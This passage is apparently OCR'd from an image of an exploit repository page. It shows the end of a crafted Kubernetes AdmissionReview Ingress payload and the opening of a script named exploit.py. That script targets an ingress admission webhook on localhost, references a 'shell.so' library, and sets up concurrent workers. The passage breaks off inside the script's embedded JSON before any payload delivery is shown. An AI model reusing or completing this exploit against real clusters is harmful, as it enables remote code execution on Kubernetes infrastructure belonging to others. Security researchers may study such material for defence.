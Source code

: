 ```
                  "host": "test.example.com",
                  "http": {
                     "paths": [
                        {
                           "path": "/",
                           "pathType": "Prefix",
                           "backend": {
                              "service": {
                                 "name": "kubernetes",
                                 "port": {
                                    "number": 443
                                 }
                              }
                           }
                        }
                     ]
                  }
               }
            ]
         },
         "status": {
            "loadBalancer": {}
         }
      },
      "oldObject": null,
      "dryRun": true,
      "options": {
         "kind": "CreateOptions",
         "apiVersion": "meta.k8s.io/v1"
      }
   }
}
"""
```

exploit.py

```python
import base64
import time
import requests
import sys
from urllib.parse import urlparse
import threading
from concurrent.futures import ThreadPoolExecutor
import urllib3
import socket
import os

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

ADMISSION_URL = "https://localhost:30443/networking/v1/ingresses"
INGRESS_URL = "http://localhost:30080/fake/addr"
SHELL_FILE = "shell.so"
NUM_WORKERS = 10

admission_json = """
{
   "kind": "AdmissionReview",
   "apiVersion": "admission.k8s.io/v1",
   "request": {
      "uid": "3babc164-2b11-4c9c-976a-52f477c63e35",
      "kind": {
         "group": "networking.k8s.io",
```
